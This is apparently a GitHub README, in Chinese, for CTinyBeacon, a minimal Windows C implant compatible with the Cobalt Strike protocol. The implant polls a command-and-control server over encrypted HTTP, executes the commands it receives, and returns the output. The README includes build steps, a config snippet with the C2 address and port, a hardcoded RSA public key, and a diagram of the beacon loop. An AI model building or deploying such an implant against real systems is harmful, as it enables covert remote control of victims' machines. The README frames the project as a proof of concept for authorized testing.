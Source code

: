 
# CTinyBeacon 

![C语言](https://img.shields.io/badge/language-C-blue.svg)
![Windows](https://img.shields.io/badge/platform-Windows-lightgrey.svg)

一个精简版Beacon实现，支持使用CS加密通信协议、命令执行和心跳检测功能。尽可能减少行为，仅保留解析命令，执行命令功能。



## 依赖环境

- Windows 平台
- MinGW-w64 编译器
- OpenSSL 1.1.1+
- libcurl 7.80+ 
- Windows SDK
- CS491

## 快速开始

### 构建项目

1. 安装依赖库
2. 克隆仓库：
   ```bash
   git clone https://github.com/Zephyr236/CTinyBeacon.git
   cd CTinyBeacon
   ```
   
3. 编译:

   ```
   make
   ```

   
### 配置文件 (config.c)

```c
// 服务器配置
char *szIpAddress = "192.168.127.128";
int nPort = 80;

unsigned char abPublicKey[] = "-----BEGIN PUBLIC KEY-----..."; // RSA公钥

// 心跳间隔(ms)
int nSleepTime = 20000;
```



### 公钥获取

> https://github.com/Slzdude/cs-scripts

```
unsigned char abPublicKey[] = "-----BEGIN PUBLIC KEY-----\n"
                            "MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQCosA9h7/0Rj1c/A4oowv0a+nQoKbYjw8bQ/cbr\n"
                            "0gJQelHDcla9VbmKWARKXBDylNcYf8sOn0Gqw3HKu2D14gABMHBbIzDeW3ZEvPs5FpDDtGopDr/o\n"
                            "k5cNQcSpsRy+TrOTtx8a7JeoClR2Gtimu4GPI5Dlxq4fA5fiI5CcXnUiHwIDAQAB\n"
                            "-----END PUBLIC KEY-----\n";
```

使用该项目获取公钥即可，并如上所示写入abPublicKey，配置ip和端口即可，其他的如果不熟悉CS通信流量不建议修改保持默认。



## 项目结构

```
CTinyBeacon/
├── include/
│   ├── command.h
│   ├── config.h
│   ├── crypto.h
│   ├── network.h
│   └── utils.h
│   └── third_party
├── lib/
├── src/
│   ├── command.c
│   ├── config.c
│   ├── crypto.c
│   ├── main.c
│   ├── network.c
│   └── utils.c
└── Makefile
```



## 工作机制

1. **初始化阶段**：
   - 生成随机会话ID
   - 使用公钥加密初始化数据
   - 建立HTTP连接

2. **心跳循环**：
   ```mermaid
   graph TD
     A[发送心跳包] --> B{接收指令}
     B -->|有指令| C[解密并执行命令]
     C --> D[加密返回结果]
     D --> A
     B -->|无指令| A
   ```



# 效果演示

![image-20250616012104049](./assets/image-20250616012104049.png)

# 微步
![2818224178453EE4416B48E6908920D7](https://github.com/user-attachments/assets/ff12ec9d-73ce-4596-8eac-0845dbe7217f)





## 注意事项

⚠️ **仅限合法授权测试使用**
⚠️ 默认配置包含硬编码密钥
⚠️ 需要关闭Windows防火墙测试
⚠️ 当前版本为PoC实现



